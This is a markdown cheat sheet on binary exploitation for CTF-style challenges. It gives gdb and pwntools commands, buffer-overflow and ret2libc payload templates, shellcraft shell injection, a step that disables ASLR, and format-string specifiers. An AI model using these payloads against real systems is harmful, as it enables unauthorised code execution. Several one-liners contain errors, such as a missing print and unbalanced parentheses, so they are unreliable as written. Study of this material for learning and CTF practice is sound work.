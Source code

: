 # Binary Exploitation

## Check Program File's Security
`checksec --file=<file>`

## Dynamic Analysis with gdb
### List Functions
`info functions`
### Disassemble Function
`disass <function-name>`
### Setting Breakpoint at Specific Line in Function
`break *<function-name>+<offset>`
### Check Value of Register
`x $<register-name>`
### Change Value of Register
`set *<address> = <new-value>`
### To Find How Many Bytes are Needed for a Buffer Overflow
`cyclic 100` to generate a string
Pass the string the program and check which part of the string get leaked in the register and copy that value then:
`cyclic -l <value-copied>`

### gdb Script Skeleton
```python
from pwn import *

exe = '<path-to-program-file>'
elf = context.binary = ELF(exe, checksec = False)

io = process(exe) # if the program is not local, io = remote('<domain/ip-address>', <port-number>)

# if the program requires to pass hex bytes:
# for 32-bit programs:
# payload = b'a' * 28 + p32(<hex-bytes>)
# for 64-bit programs:
# payload = b'a' * 28 + p64(<hex-bytes>)

io.sendlineafter(b'<delimiter-to-send-after>', b'<payload-to-send>')

io.interactive()
```

## Buffer Overflow with Python 2
If you know that the program has a buffer with only a certain number of characters that can be handled, you can use `python2` to generate a string of characters that will cause a buffer overflow, write that string to a file, and redirect that file into the program.
Ex: The program called `exampleapp` has a buffer of 16 bytes that is vulnerable to buffer overflows. There is a hidden function that contains the flag you are looking for but that function is never called. Use buffer overflow to reach that function with the following steps:
	1. Use `gdb` to find the address of the hidden function (e.g., `0x08049182`).
	2. Use `python2` to generate a string with 16 bytes + the address of the function and write it to a file (`python2 -c '"A" * 16 + "\x82\x91\x04\x08"' > payload`).
	3. Run the program and redirect the file containing the buffer overflow string to it (`./exampleapp < payload`)
You can also pass a file in `gdb` with `run < payload`.

## 64-Bit Buffer Overflow to Call a Hidden Function
`python2 -c 'print "A" * <buffer-size> + <hidden-function-address> + <pop-rdi-address> + <function-param1> + <pop-rsi-address> + <function-param2>'`

## Injection Assembly Instructions
### Generating Assembly Instructions with Shellcraft
`pwntools` has a package names `shellcraft` that can be used to generate assembly instrucitons for shell payloads.
`shellcraft i386.linux.sh -f a` command generates assembly instructions for a 32-bit program linux shell to be injected.
You can use `pwntools` and `shellcraft` within a `Python` script to generate the assembly and inject it into the target process.

## Returnin to libc (use if NX enabled on the binary and it is dynamically linked)
### Local Exploitation
#### Find libc Library Base Address
If `ASLR` is enabled then the address will be different each time.
`ldd <binary>`
### 32-bit
#### Locally Stop ASLR
You can turn off ASLR if the exploitation is happening on your local system.
`echo 0 | sudo tee /proc/sys/kernel/randomize_va_space` (default value was 2)
#### Get Offset of System in libc Library
`readelf -s </lib/i386-linux-gnu/libc.so.6 OR output-from-ldd-above> | grep system`
#### Get Offset of "/bin/sh"
`strings -a -t x </lib/i386-linux-gnu/libc.so.6 OR output-from-ldd-above> | grep "/bin/sh"`
#### Calculate HEX Values for Offsets
##### system HEX
`python3 -c "from pwn import *; print(flat(<system-offset> + <libc-offset>)))"`
##### /bin/sh HEX
`python3 -c "from pwn import *; print(flat(<binsh-offset> + <libc-offset>))"`
#### Generate Payload
`python2 -c 'print "A" * <cyclic-offset> + "<system-hex>" + "<return-address-can-be-0x0>" + "<binsh-hex>"'`
### 64-bit
Follows a lot of the same steps except the way arguments are passed to functions. In 64-bit arguments are passed through `rdi` and `rsi` registers instead of directly on the stack.
#### Get Offset of libc system 64-bit
`readelf -s </lib/x86_64-linux-gnu/libc.so.6 OR output-from-ldd-above> | grep system`
#### Get Offset of "/bin/sh" 64-bit
`strings -a -t x </lib/x86_64-linux-gnu/libc.so.6 OR output-from-ldd-above> | grep "/bin/sh"`
#### Finding `rdi`
Take the memory address of the output from the following command.
`ropper --file <binary> --search "pop rdi"`
##### `pop rdi` HEX
`python3 -c "from pwn import *; print(flat(p64(<pop-rdi-address>)))"`
**Note: If the instruction contains more than just the target register you need to account for that with `\x00`s**
#### Calculate HEX Values for Offsets
##### system HEX
`python3 -c "from pwn import *; print(flat(p64(<system-offset>) + p64(<64bit-libc-offset>))))"`
##### /bin/sh HEX
`python3 -c "from pwn import *; print(flat(p64(<binsh-offset>) + p64(<64bit-libc-offset>)))"`
#### Generate Payload
`python2 -c 'print "A" * <cyclic-offset> + "<pop-rdi-hex>" + "<binsh-hex> + <system-hex>"'`

## Format String Vulnerabilities
If the program uses some C function that accepts format specifiers and the program does not specify the format expected for the user input, we can inject specifiers to get information off the stack.
### Useful Specifiers
- `%p`: Get value of pointer
- `%x`: Get values in HEX
- `%10$x`: Get 10th value from the stack in HEX
- `%10$s`: Get the 10th value from the stack in string representation.
